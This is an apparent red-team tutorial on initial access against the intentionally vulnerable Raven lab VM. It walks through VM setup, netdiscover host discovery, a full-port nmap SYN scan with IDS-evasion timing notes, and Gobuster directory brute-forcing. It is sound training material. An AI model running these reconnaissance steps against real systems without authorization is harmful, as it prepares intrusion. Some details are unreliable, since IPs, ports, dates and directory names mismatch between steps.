












## MITRE ATT&CK Exploitation and Initial Access Techniques

In the [MITRE ATT&CK framework](https://attack.mitre.org/), [*Initial Access*](https://attack.mitre.org/tactics/TA0001/) techniques are used to gain an initial foothold within a network. Some techniques in the [techniques list](https://attack.mitre.org/tactics/TA0001/), like [*trusted relationship*](https://attack.mitre.org/techniques/T1199/), require physical contact with employees and the target organization. Given the nature of our engagement, this guide only focuses on digital initial access vectors.

The following is a list of key techniques and sub-techniques that this guide explores:

- [Exploiting a public-facing application](https://attack.mitre.org/techniques/T1190/)

### Attack Scenario

In the example for this guide, a public-facing Linux server that is used to host a web application is exploited. Our objective is to identify and exploit vulnerabilities in the target web application in order to obtain an initial foothold on the target system.

### Infrastructure

The infrastructure for the example attack scenario consists of:

- A targeted Linux web server. This guide uses a vulnerable [*Raven* Linux virtual machine](https://www.vulnhub.com/entry/raven-1,256/) that has been configured to teach you the process of exploitation and privilege escalation.

- Another Linux system that the attacks are carried out from. Some Linux distributions, like [Kali Linux](https://www.kali.org/) and [Parrot OS](https://www.parrotsec.org/), are pre-configured with tools needed for security work. The commands in this guide assume that Kali Linux is used, but the instructions can be adapted to other distributions as well.

## Before You Begin

The following is a list of recommended technical prerequisites that help get the most out of this guide:

- Familiarity with Linux system administration

- Functional knowledge of TCP/IP

- Familiarity with penetration testing concepts and lifecycle

To follow the instructions in this guide, you need to set up the two Linux systems described in the [infrastructure](#infrastructure) section. The next sections show how to install these systems as virtual machines on your workstation. [Vagrant](https://www.vagrantup.com/) and [VirtualBox](https://www.virtualbox.org/) are used to create the virtual machines. If you prefer to use a different virtualization software, make sure that the two virtual machines can connect to each other over a shared network.


The example virtual machines specified in this guide assume you are using an x86-architecture workstation. Some workstations (like recent Apple Silicon computers) use ARM or other processor architectures. You need to use virtualization software and virtual machines that support your processor architecture. [Parallels Desktop](https://www.parallels.com/blogs/parallels-desktop-apple-silicon-mac/) and [qemu](https://doesitarm.com/formula/qemu/) currently provide Apple Silicon support.


### Install Vagrant and VirtualBox

- Vagrant is a command-line frontend for other virtualization software, with VirtualBox support included in the default Vagrant installation. Follow the Vagrant installation instructions for your platform from the [Download Vagrant](https://www.vagrantup.com/downloads) page.

- VirtualBox is a free x86 virtualization software. Download and install the latest VirtualBox platform package for your workstation from the [Download VirtualBox](https://www.virtualbox.org/wiki/Downloads) page.

### Install Kali Linux with Vagrant and VirtualBox

In a terminal on your workstation:

1.  Create and navigate to a new directory named `kali-vagrant`. In the next steps, some Vagrant-related configuration files are created in this directory.

        mkdir kali-vagrant
        cd kali-vagrant

1.  Run the `vagrant init` command for Kali Linux:

        vagrant init kalilinux/rolling

    The `vagrant init` command creates [a new text file called `Vagrantfile`](https://www.vagrantup.com/docs/vagrantfile) inside your `kali-vagrant` directory. The options specified in this file configure the virtual machine created by Vagrant.

1.  Open the `Vagrantfile` file in your text editor.

1.  The file should already contain this line: `config.vm.box = "kalilinux/rolling"`. Insert a new line below this one as in the following snippet:

    
# ...

  config.vm.box = "kalilinux/rolling"
  config.vm.network "private_network", type: "dhcp", name: "vboxnet0"

# ...


    This new `config.vm.network` line specifies that the Kali Linux VM should use a [private host-only VirtualBox network](https://www.vagrantup.com/docs/providers/virtualbox/networking#virtualbox-host-only-networks). The name for this network is specified as `vboxnet0`.

    
In the next section, the Raven virtual machine is configured to use the same `vboxnet0` VirtualBox network.


1.  After the new line is inserted, save the file.

1.  Create the virtual machine with Vagrant by using the `up` subcommand:

        vagrant up

    This operation takes time to complete. When it's finished, the Kali VM appears in the VirtualBox Manager window:

    

    A new window showing the Kali Linux login screen also appears in VirtualBox:

    

### Install the Raven Virtual Machine with VirtualBox

1. Download the Raven virtual machine **Raven.ova file** from the [Raven VulnHub page](https://www.vulnhub.com/entry/raven-1,256/).

1. Double-click the file after it is downloaded to open it. A VirtualBox import dialog appears. Click the **Import** button on this dialog:

    

1. In the VirtualBox VM list, the new Raven VM appears with the label **vm**. Click on this new VM in the sidebar and then click the **Settings** button:

    

1. The **Settings** window appears. Navigate to the **Network** tab. The **Attached to** field has an initial value set to **NAT**. Change this to **Host-only Adapter**. After changing this value, make sure the **Name** field is set to **vboxnet0**:

    

    By making this change, the Raven VM is configured to use the same host-only network as the Kali Linux VM. This means that the two virtual machines can connect to each other over the network.

1. Click **OK** on the **Network Settings** tab to save the change.

1. In the VirtualBox VM list, click the **Start** button to start the Raven VM:

    

1. A new window appears that displays the Raven VM's terminal.

## Find the IP Address of the Raven Virtual Machine

It is possible to use the Kali Linux GUI in VirtualBox to perform the instructions in this section. However, the next instructions instead use an SSH connection to the Kali VM to enter commands.

1.  In your terminal, navigate to your `vagrant-kali` directory. If your terminal is still in this directory from the previous instructions, then you do not need to run this command:

        cd vagrant-kali

1.  Log into the Kali VM with SSH:

        vagrant ssh

1.  Inside the SSH connection, run the `ip` command:

        `ip a`

1.  Output similar to the following appears:

    
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:fd:bd:07 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 86384sec preferred_lft 86384sec
    inet6 fe80::a00:27ff:fefd:bd07/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:ab:30:f0 brd ff:ff:ff:ff:ff:ff
    inet 172.28.128.12/24 brd 172.28.128.255 scope global dynamic eth1
       valid_lft 584sec preferred_lft 584sec
    inet6 fe80::a00:27ff:feab:30f0/64 scope link
       valid_lft forever preferred_lft forever


    Note that an `eth0` and an `eth1` interface appear:

    - The `eth0` interface corresponds to a [NAT VirtualBox network](https://www.virtualbox.org/manual/ch06.html#network_nat) that is included in the default Vagrant configuration for Kali Linux.

    - The `eth1` interface corresponds to the [private host-only VirtualBox network](https://www.vagrantup.com/docs/providers/virtualbox/networking#virtualbox-host-only-networks) that was configured in the [install Kali Linux](#install-kali-linux-with-vagrant-and-virtualbox) section. This is the interface that is used to connect to the Raven VM.

1.  Under the `eth1` section of the output, on the `inet` line, look for the IPv4 address assigned to that adapter. In the example above, this address is `172.28.128.12`.

1.  Copy the IP address, including the `/24` network prefix (e.g. `172.28.128.12/24` in the example output).

1.  Run the `netdiscover` command with the following options. Replace `$KALI_VM_NETWORK` with the IP address and `/24` network prefix (e.g. `172.28.128.12/24`) from the previous step:

        sudo netdiscover -i eth1 -r $KALI_VM_NETWORK

1.  Output similar to the following appears:

    
 Currently scanning: 172.28.128.0/24   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 172.28.128.2    08:00:27:f6:ee:5e      2     120  PCS Systemtechnik GmbH
 172.28.128.13   08:00:27:f0:07:44      2     120  PCS Systemtechnik GmbH


    - The address ending in `.2` is the default gateway IP address.

    - **The other address that appears (`172.28.128.13` in this example) corresponds to your Raven VM.**

## Port Scanning

The first step in the exploitation phase involves scanning the target server for open ports. The scan lists the services and their respective service versions running on the open ports. Port scanning was briefly explored in the [reconnaissance phase](/docs/guides/red-team-reconnaissance-techniques/). This section shows how to scan open ports and perform enumeration in more detail with the nmap tool.

### Port Scanning with nmap

1. In your Kali SSH session, run the `nmap` command with the following options. Replace `$RAVEN_VM_IP` with your Raven VM's IP address. This was found in the output from the `netdiscover` command in the previous section:

        sudo nmap -sS -A -p- -T4 $RAVEN_VM_IP -oN nmap_all.txt

    | Option | Description |
    |--------|-------------|
    | `-sS` | Perform a SYN scan, also called a "stealth scan". nmap sends a SYN TCP packet to the server and listens for SYN/ACK (for open ports) or RST packets (for closed ports) in response from the server. nmap does not respond to SYN/ACK with another ACK packet, which would [complete the TCP connection if sent](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Connection_establishment). |
    | `-A` | Enables OS detection (`-O`), service version scanning (`-sV`), script scanning (`-sC`) and traceroute (`--traceroute`). |
    | `-p-` | Scan ports 1 to 65535 (the entire TCP port range). |
    | `-T4` | The `-T` option specifies a timing template for the scan to use, ranging from 0 to 5. `-T0` is slowest and is used to evade intrusion detection systems on the server. `-T3` is a default speed. `-T4` is a faster mode than normal and relies on a fast and reliable network connection. |
    | `-oN nmap_all.txt` | Send output from the scan to a text file (`nmap_all.txt` in this example). |

    
See the [man page for nmap](https://linux.die.net/man/1/nmap) for explanations of all options.


1. The command shows output similar to:

    
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-14 17:24 EDT
Nmap scan report for 172.28.128.10
Host is up (0.0063s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46285/tcp   status
|   100024  1          56973/udp   status
|   100024  1          57907/tcp6  status
|_  100024  1          57948/udp6  status
46285/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5E:DA:B2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   6.27 ms 172.28.128.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.02 seconds


    The results of the scan reveal that the target server has four open ports running the following services, including an SSH server on port 22 and the Apache web server on port 80:

    | Port | Service |
    |------|---------|
    | 22 | OpenSSH 6.7p1 |
    | 80 | Apache httpd 2.4.10 |
    | 111 | RPC |
    | 55995 | RPC |

    We are also able to deduce from the service version banners that the target is running Debian. This information is relevant during the [privilege escalation phase](/docs/guides/linux-red-team-privilege-escalation-techniques/).

## Web Server Enumeration

In order to learn more about the web server and the web application that it is hosting, we need to perform *enumeration* of the server. In the context of vulnerability scanning, enumeration is the process of collecting information about a system.

### Inspect the Website in a Browser

The first step involves accessing the hosted website from the browser inside your Kali VM:

1. On your workstation, open the Kali Linux GUI window presented by VirtualBox. If the window is too small, you can scale the resolution by using the Adjust Window Size option in the bottom toolbar:

    

1. The default login username for the Kali VM (when created with Vagrant) is `vagrant`. The default password is also `vagrant`. Use these credentials to log into the GUI.

1. The Kali desktop appears. Open Firefox from the menu bar at the top of the screen. In Firefox, visit `http://RAVEN_VM_IP`, replacing `RAVEN_VM_IP` with your Raven VM's IP address:

    

1. Viewing the site can reveal information about how it operates. For example, if you click the **Blog** link, the URL of the new page is `http://RAVEN_VM_IP/wordpress/`. The content on the page shows that it is an under-construction WordPress page:

    

1. It can be helpful to learn more about the directory structure of the website. You can sometimes access the site's robots.txt and sitemap.xml files to do this. However, these files are not accessible on the Raven VM's website.

    To detect hidden files and directories on the webserver, you can also perform a directory brute force attack.

### Directory Brute-Force

You can perform a directory brute force attack in order to discover any hidden files and directories on the webserver. Several tools are available to perform this attack:

- [Dirb](https://www.kali.org/tools/dirb/)

- [DirBuster](https://www.kali.org/tools/dirbuster/)

- [Gobuster](https://www.kali.org/tools/gobuster/)

This section shows how to use Gobuster. To use Gobuster, you need to provide a wordlist for Gobuster to run the directory scan with. This guide uses the popular wordlist collection called [SecLists](https://github.com/danielmiessler/SecLists).

1.  Return to your Kali SSH session in your terminal. Gobuster should be installed by default on Kali. On other Debian-based distributions, you can install it with apt:

        sudo apt install gobuster -y

1.  The wordlists from SecLists should be downloaded to your VM. On Kali, you can install the `seclists` package:

        sudo apt install seclists -y

    Installing this package places the wordlists in the `/usr/share/seclists` directory. Other methods for downloading the wordlists are provided in the [SecLists GitHub repository](https://github.com/danielmiessler/SecLists#install)

1.  Perform the directory brute force attack against the web server with Gobuster. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        gobuster dir --url http://$RAVEN_VM_IP --wordlist /usr/share/seclists/Discovery/Web-Content/big.txt

    This command uses the `big.txt` wordlist that is part of the SecLists collection.

1.  The Gobuster output reveals the same `/wordpress/` directory that was found in the previous section:

    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.28.128.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/15 11:32:52 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/css                  (Status: 301) [Size: 312] [--> http://172.28.128.13/css/]
/fonts                (Status: 301) [Size: 314] [--> http://172.28.128.13/fonts/]
/img                  (Status: 301) [Size: 312] [--> http://172.28.128.13/img/]
/js                   (Status: 301) [Size: 311] [--> http://172.28.128.13/js/]
/manual               (Status: 301) [Size: 315] [--> http://172.28.128.13/manual/]
/server-status        (Status: 403) [Size: 301]
/vendor               (Status: 301) [Size: 315] [--> http://172.28.128.13/vendor/]
/wordpress            (Status: 301) [Size: 318] [--> http://172.28.128.13/wordpress/]

===============================================================
2022/12/14 11:33:18 Finished
===============================================================


